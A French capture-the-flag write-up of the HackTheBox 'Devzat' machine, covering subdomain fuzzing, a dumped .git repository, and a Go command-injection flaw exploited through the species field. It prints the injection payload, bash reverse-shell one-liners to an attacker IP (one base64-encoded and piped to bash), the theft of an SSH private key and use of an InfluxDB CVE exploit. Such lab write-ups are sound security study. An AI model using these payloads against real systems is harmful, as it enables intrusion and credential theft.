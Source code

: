 # Devzat | Linux

<ins>Plateforme</ins>: **HackTheBox**\
<ins>Nom</ins>: **Devzat**\
<ins>Difficulté</ins>: **Medium**\
<ins>Infos</ins>: **ssh, port-forwarding**

## Scan | Nmap

![image](https://user-images.githubusercontent.com/68467919/155146623-6be18710-2758-4640-9910-e779bd5c8bea.png)

## Vhost

```bash
wfuzz -c -f enum/subdomains.txt -u http://devzat.htb -w /home/r0s3/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.devzat.htb" --hw 26
```

![image](https://user-images.githubusercontent.com/68467919/155146692-1e7b41cc-b8a3-4360-bfd4-8695a1e40580.png)

Sous-domaine “pets”.

## SSH | Port 8000

![image](https://user-images.githubusercontent.com/68467919/155146752-649b06b1-4d55-4543-a717-37efd376bb78.png)

Repo Github de Devzat

[GitHub - quackduck/devzat: The devs are over here at devzat, chat over SSH!](http://github.com/quackduck/devzat)

## Port 80 | Apache

![image](https://user-images.githubusercontent.com/68467919/155146823-e5a54dc9-2560-4055-b418-78d229b9002c.png)

![image](https://user-images.githubusercontent.com/68467919/155146857-3ab7c208-1937-424f-83b6-0e68d523dadc.png)
Il est possible de se connecter sur le serveur SSH de la machine avec n’importe quel nom d’utilisateur.

## Pets | Sous-Domaine

![image](https://user-images.githubusercontent.com/68467919/155146967-64ffb283-eccc-4c81-9b31-94b2aa1589fc.png)

<aside>
💡 Quand une requête est effectuée, elle se fait sur /api/pet !

</aside>

Le sous-domaine a un fichier “.git” qui serait possible de dump avec git-dump.py

![image](https://user-images.githubusercontent.com/68467919/155147017-5bcc2a35-f855-4066-95a1-17b01e1813a3.png)

Ensuite, j’utilise l’extractor de GitTools pour extraire les données que j’ai récupéré.

![image](https://user-images.githubusercontent.com/68467919/155147054-5bfe52b4-015b-4c05-9e3c-c29ffc39fc58.png)

## 🤖 Analyse du code | Golang

Dans le fichier *main.go* une partie est intéressante selon moi : 

```go
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

Pour mieux comprendre, je vais essayer d’expliquer le code.

Nous avons la fonction loadCharacter qui prend en paramètre species, de type string.

La variable **cmd** contient le retour de exec.Command qui va exécuter la commande “cat” dans le dossier characteristics.

L’une des vulnérabilités dont j’ai pensé en premier était une LFI. Essayer de cat /etc/passwd ou un fichier de configuration. Après plusieurs tentatives, je pense essayer une OS Injection.

Si j’envois la requête suivante : 

```bash
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 81
Connection: close

{"name":"aaaa",
"species":"cat;ping -c 5 10.10.14.5"
}
```

Je reçois bien des requêtes provenant de pets.devzat.htb : 

![image](https://user-images.githubusercontent.com/68467919/155147108-b99eba0d-a0e6-4b0e-b833-bc055793342a.png)
## Reverse-Shell

Tout d’abord, j’ai essayé un reverse-shell sans l’encoder en base64. Mais ça n’a pas fonctionné et je n’ai pas reçu de retour sur Netcat.

```bash
bash -i >& /dev/tcp/10.10.14.5/1337 0>&1 | bash
```

Le payload suivant fonctionne et me fait pop un reverse-shell : 

```bash
echo "bash -i >& /dev/tcp/10.11.14.5/1337 0>&1" | base64
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzEzMzcgMD4mMQo=" | base64 -d | bash
```

En premier temps, j’affiche la string “*YmFzaC[...]MD4mMQo=*”, je la décode en base64 puis j’exécute la string décodé avec “bash”

![image](https://user-images.githubusercontent.com/68467919/155147194-6a4defd6-5f1d-4541-b61e-8b4b6b85d26b.png)

Après avoir fait spawn un shell “stable” avec la commande : 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

Je me rend dans le /home/patrick et m’appercoi qu’un dossier /.ssh est présent avec un id_rsa à l’intérieur ! Super, nous pouvons voler la clé privé de Patrick pour se connecter à sa session SSH ! 

```bash
ssh -i id_rsa patrick@devzat.htb
```

![image](https://user-images.githubusercontent.com/68467919/155147248-414720bd-d089-4bb9-b588-13cd80b29950.png)

## SSH | Port 22

### LinPeas

Quelques ports intéressants notamment le “8086”.

![image](https://user-images.githubusercontent.com/68467919/155147296-ace73a89-7ab4-47b8-967a-a8ea6b89ce90.png)
Après avoir effectué un local port-forwarding sur le port 8086, j’obtiens cette page : 

![image](https://user-images.githubusercontent.com/68467919/155147329-f7c46cd2-02e8-48b7-820e-4cbe8edc72ca.png)
Après énumération : 

![image](https://user-images.githubusercontent.com/68467919/155147409-873cfa9c-78e8-424b-99c5-8dce8e767eaf.png)

Scan nmap sur le port local pour connaître quel service tourne.

![image](https://user-images.githubusercontent.com/68467919/155147439-765d985e-c0c8-476b-8b61-ce95c973c95d.png) \
Après une recherche sur internet, je tombe sur ce repo Github.

[GitHub - LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933: InfluxDB CVE-2019-20933 vulnerability exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

![image](https://user-images.githubusercontent.com/68467919/155147951-884a5933-fd4f-4091-8473-f464e54bd317.png)

Maintenant, nous devons selectionner la base de donnée que nous voulons explorer.

Pour énumérer notre base de donnée, nous allons nous référer au cheat-sheet suivant : 

[InfluxDB command cheatsheet](https://songrgg.github.io/operation/influxdb-command-cheatsheet/)

![image](https://user-images.githubusercontent.com/68467919/155148005-9e7651eb-7212-4e89-8096-8f95f460212e.png)

![image](https://user-images.githubusercontent.com/68467919/155148053-dbea62e9-5868-4e9a-b24f-f4fbd175990d.png)

Super, nous avons le mot de passe de plusieurs utilisateurs. Un en particulier est intéressant car je l’ai trouvé en énumérant la machine depuis le compte de Patrick. Testons donc de nous connecter au compte de Catherine !

![image](https://user-images.githubusercontent.com/68467919/155148119-6269e757-063d-46ce-bca2-9545591e018b.png)

Dans le répertoire /var/backups, nous trouvons deux fichiers .zip du nom de “devzat-dev.zip” et “devzat-main.zip”. 

Après les avoir décompresser, nous remarquons que les deux fichiers sont similaires. J’ai cherché pendant un long moment à comprendre ce qu’il fallait faire et je suis tombé sur ce code là, dans le fichier dev/devzat.go 

```go
import (
	port = 8443
		port, err = strconv.Atoi(os.Getenv("PORT"))
	fmt.Printf("Starting chat server on port %d\n", port)
		fmt.Sprintf("127.0.0.1:%d", port),
		u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
```

Ce que nous comprenons ici, c’est qu’une instance du service SSH tourne sur le port 8443. C’est une bonne piste. 

Pour se faciliter la tâche, la commande diff peut être utilisée pour connaître les différences entre les deux dossiers spécifiés.

```bash
diff dev/ main/
```

Les résultats sont nombreux, mais le plus important est : 

```go
commands = []commandInfo{clear, message, users, all, exit, bell, room, kick, id, _commands, nick, color, timezone, emojis, help, tictactoe, hangman, shrug, asciiArt, exampleCode, file}

// Check my secure password
if pass != "CeilingCatStillAThingIn2021?" {
	u.system("You did provide the wrong password")
	return
	}
}

func fileCommand(u *user, args []string) {
	if len(args) < 1 {
		u.system("Please provide file to print and the password")
	 	return
}
 
if len(args) < 2 {
 	u.system("You need to provide the correct password to use this function")
 	return
}
 
 	path := args[0]
 	pass := args[1]
```

Nous pouvons déjà remarquer que nous avons une liste de commande, une retient mon attention, “file”, un mot de passe est écrit en clair dans le code également. 

Depuis la session de Catherine, essayons donc de nous connecter au service SSH et d’essayer de lire le contenu du fichier root.txt

![image](https://user-images.githubusercontent.com/68467919/155148273-2081b0c5-a74e-44e7-9383-4217685d4f3a.png)

**FLAGGED !!!**
